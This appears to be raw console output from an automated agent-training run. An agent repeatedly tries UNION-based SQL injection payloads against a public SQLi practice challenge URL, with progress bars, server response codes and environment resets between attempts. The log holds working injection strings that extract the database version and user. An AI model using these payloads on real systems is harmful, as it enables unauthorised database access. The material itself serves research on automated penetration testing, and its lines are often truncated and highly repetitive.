https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Serv

  0%|          | 2532/1000000 [14:13:45<6718:05:23, 24.25s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2533/1000000 [14:13:48<4905:39:15, 17.71s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2534/1000000 [14:13:49<3505:36:10, 12.65s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3,4 --
https://zixem.altervist

  0%|          | 2535/1000000 [14:14:15<4607:52:48, 16.63s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2536/1000000 [14:14:16<3370:05:07, 12.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union sel

  0%|          | 2537/1000000 [14:14:36<4008:46:04, 14.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax e

  0%|          | 2538/1000000 [14:15:04<5080:48:27, 18.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1

  0%|          | 2539/1000000 [14:15:40<6555:14:05, 23.66s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2540/1000000 [14:15:40<4650:48:44, 16.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2541/1000000 [14:15:41<3319:40:15, 11.98s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2542/1000000 [14:15:43<2467:06:08,  8.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select

  0%|          | 2543/1000000 [14:19:11<19044:25:11, 68.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of co

  0%|          | 2544/1000000 [14:19:39<15647:26:05, 56.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax err

  0%|          | 2545/1000000 [14:20:55<17276:02:37, 62.35s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2546/1000000 [14:20:56<12161:41:17, 43.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax

  0%|          | 2547/1000000 [14:21:16<10142:15:42, 36.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2548/1000000 [14:21:16<7162:18:02, 25.85s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2549/1000000 [14:21:17<5075:36:22, 18.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2550/1000000 [14:21:18<3620:27:23, 13.07s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2551/1000000 [14:21:20<2677:19:25,  9.66s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2552/1000000 [14:21:26<2370:01:46,  8.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union sele

  0%|          | 2553/1000000 [14:22:24<6486:04:20, 23.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc n

  0%|          | 2554/1000000 [14:23:27<9839:13:53, 35.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2555/1000000 [14:23:28<6970:32:39, 25.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2556/1000000 [14:23:29<4948:56:45, 17.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3

  0%|          | 2557/1000000 [14:24:13<7121:25:10, 25.70s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2558/1000000 [14:24:14<5046:07:47, 18.21s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2559/1000000 [14:24:15<3604:03:50, 13.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server r

  0%|          | 2560/1000000 [14:24:47<5214:00:54, 18.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2561/1000000 [14:24:48<3718:32:04, 13.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server respons

  0%|          | 2562/1000000 [14:26:07<9189:30:20, 33.17s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2563/1000000 [14:26:08<6494:29:23, 23.44s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 -

  0%|          | 2564/1000000 [14:26:42<7350:15:43, 26.53s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2565/1000000 [14:26:43<5207:46:30, 18.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of colum

  0%|          | 2566/1000000 [14:27:32<7778:09:19, 28.07s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2567/1000000 [14:27:33<5507:37:38, 19.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2568/1000000 [14:27:34<3920:00:06, 14.15s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2569/1000000 [14:27:35<2809:42:42, 10.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2570/1000000 [14:27:35<2031:05:36,  7.33s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2571/1000000 [14:27:36<1485:50:55,  5.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2572/1000000 [14:27:37<1106:57:59,  4.00s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 

  0%|          | 2573/1000000 [14:28:00<2651:40:05,  9.57s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2574/1000000 [14:28:00<1925:53:55,  6.95s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2575/1000000 [14:28:01<1378:23:14,  4.98s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2576/1000000 [14:28:02<1032:35:47,  3.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.alterv

  0%|          | 2577/1000000 [14:28:09<1329:39:31,  4.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2578/1000000 [14:28:10<990:57:10,  3.58s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2579/1000000 [14:28:10<755:43:01,  2.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2580/1000000 [14:28:11<601:35:37,  2.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Serve

  0%|          | 2581/1000000 [14:28:40<2824:32:50, 10.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2582/1000000 [14:28:41<2044:57:49,  7.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column


  0%|          | 2583/1000000 [14:29:04<3363:19:21, 12.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2584/1000000 [14:29:05<2418:40:42,  8.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 2585/1000000 [14:29:06<1755:19:13,  6.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2586/1000000 [14:29:07<1294:36:31,  4.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Sy

  0%|          | 2587/1000000 [14:31:23<12280:48:43, 44.33s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2588/1000000 [14:31:24<8661:49:46, 31.26s/it] 

